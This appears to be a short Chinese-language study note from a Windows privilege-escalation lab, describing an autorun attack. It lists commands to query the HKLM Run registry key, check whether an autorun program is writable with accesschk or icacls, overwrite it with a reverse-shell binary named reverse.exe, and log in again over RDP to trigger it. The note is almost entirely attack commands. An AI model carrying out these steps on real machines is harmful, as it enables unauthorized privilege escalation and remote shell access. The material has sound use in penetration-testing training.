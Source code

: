 # 自动运行

> **需要能够控制登陆需要具有autorun可执行文件其中一个对所有人可写**

```python
1. 查询
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
2. 检查（看能不能写）
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
或者
icacls "C:\Program Files\Autorun Program\program.exe"
3. 覆盖
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
4. 重启
rdesktop MACHINE_IP
```
